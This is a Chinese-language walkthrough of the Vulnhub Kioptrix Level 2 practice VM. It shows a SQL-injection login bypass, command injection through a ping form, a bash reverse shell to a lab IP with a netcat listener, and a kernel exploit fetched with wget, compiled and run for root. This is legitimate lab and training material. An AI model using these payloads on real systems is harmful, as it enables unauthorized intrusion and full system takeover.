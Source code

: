 ```yaml
---
title: KIOPTRIX:LEVEL2
author: hgbe02
date: 2024-01-26
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Kioptrix-level2.html"
---
```


# KIOPTRIX: LEVEL 2

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632087.png" alt="image-20240126104304145" style="zoom:50%;" />

老样子，对`.vmx`进行改造，然后扫描：

![image-20240126114005266](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632089.png)

## 踩点一下

打开看看对不对：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632090.png" alt="image-20240126114350440" style="zoom:50%;" />

尝试万能密码，`username`填入`admin' or '1' = '1`，进入了。好家伙直接免去了我最糟心的sql注入环节：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632091.png" alt="image-20240126115844210" style="zoom:67%;" />

然后随便ping一下，看看能不能执行命令`127.0.0.1 && whoami`，输出：

```text
127.0.0.1 && whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.264 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.032/0.110/0.264/0.108 ms, pipe 2
apache
```

使用插件看一下相关配置信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632092.png" alt="image-20240126122344403" style="zoom: 50%;" />

## 端口扫描

```sh
sudo nmap -sS -T5 -A -p- 192.168.244.138
/*
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-25 23:07 EST
Nmap scan report for 192.168.244.138
Host is up (0.00067s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1009/udp   status
|_  100024  1           1012/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_ssl-date: 2024-01-26T01:58:17+00:00; -2h09m35s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
1012/tcp open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:12:F4:09 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -2h09m35s

TRACEROUTE
HOP RTT     ADDRESS
1   0.67 ms 192.168.244.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.59 seconds
*/
```

可以看到，开放了`22,80,111,443,631,1012,3306`这几个端口。

## 方法一：kali监听，反弹shell

```shell
127.0.0.1&&bash -i >& /dev/tcp/192.168.244.133/3380 0>&1
# bash -i >& /dev/tcp/192.168.244.133/3380 0>&1：这是一个反向 shell 命令的核心部分。
# bash -i：这会启动一个交互式的 bash shell。
# >& /dev/tcp/192.168.244.133/3380：这会将 bash shell 的输出重定向到 IP 地址 192.168.244.133 的 3380 端口。这意味着在 192.168.244.133 上监听 3380 端口的任何人都可以看到 bash shell 的输出。
# 0>&1：这会将 bash shell 的输入重定向到其输出，这意味着在 192.168.244.133 上监听 3380 端口的任何人都可以向 bash shell 发送命令。
```

本地开启一下监听：

```shell
nc -lvvp 3380
# nc：这是 netcat 的简写，是一个强大的网络工具，可以用于读取和写入网络连接。
# -l：这个参数让 netcat 进入监听模式，等待接入的连接。
# -v：这个参数让 netcat 在操作过程中提供更多的信息，也就是说它会显示更详细的输出。当你使用两个 -v 参数（即 -vv）时，netcat 会提供更详细的信息。
# -p 3380：这个参数指定 netcat 应该监听的端口号，这里是 3380。
```

进去了，拿到了一个普通用户权限：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632093.png" alt="image-20240126122158468" style="zoom:50%;" />

## 尝试提权

先寻找一下Apache相关漏洞查看是否有可以实现的：

![image-20240126122906650](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632094.png)

不对，我都反向连接shell了，我还要这个干啥。。。

尝试`SUID`提权：

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lvvp 3380
listening on [any] 3380 ...
192.168.244.138: inverse host lookup failed: Unknown host
connect to [192.168.244.133] from (UNKNOWN) [192.168.244.138] 32771
bash: no job control in this shell
bash-3.00$ find / -perm -4000 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/userisdnctl
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
/usr/kerberos/bin/ksu
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/bin/chsh
/usr/bin/rcp
/usr/bin/sudo
/usr/bin/chage
/usr/bin/crontab
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/lppasswd
/usr/bin/sg
/usr/bin/passwd
/bin/mount
/bin/traceroute6
/bin/traceroute
/bin/umount
/bin/ping6
/bin/ping
/bin/su
```

没有我们想要的文件。。。

尝试内核提权：

```shell
uname -a 	   #打印系统信息
lsb_release -a #查看系统版本
```

![image-20240126123958819](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632095.png)

可以看到 CentOS 版本为4.5，查找相关漏洞：

![image-20240126124416353](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632096.png)

第二个符合我们的系统，尝试下载下来利用一下：

```shell
searchsploit -m PATH
```

然后开启python的简单http服务：

```shell
python3 -m http.server 1234
```

然后在反弹shell中进行下载：

```shell
cd /tmp  								 # 防止没有读写权限
wget http://192.168.244.133:1234/9542.c  # 远程下载payload
gcc 9542.c  							 # 编译一下，这里有报错但是不影响
./a.out 								 # exploit
```

![image-20240126130302284](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632097.png)

如图已经拿到了root，打靶结束。